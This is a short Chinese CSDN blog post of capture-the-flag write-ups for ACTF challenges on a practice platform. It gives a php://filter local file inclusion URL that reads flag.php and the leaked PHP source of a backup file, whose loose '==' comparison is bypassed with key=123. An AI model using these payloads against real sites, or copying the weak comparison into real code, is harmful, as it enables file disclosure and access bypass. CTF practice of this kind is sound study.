



<!--yml
category: 未分类
date: 2022-04-26 14:18:24
-->

# ACTF题解_Mr_小白先生的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_41788704/article/details/109046353](https://blog.csdn.net/qq_41788704/article/details/109046353)

# Include

查看HTML源码,发现flag位置
因为题目提示，所以用伪协议包含文件

```
http://e4ca9c95-59dc-4e4f-8e08-99bbf23306dd.node3.buuoj.cn/?file=php://filter/read=convert.base64-encode/resource=flag.php 
```



# exec



# backupfile

扫描发现index.php.bak源码泄露

```
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
} 
```

弱类型比较
key=123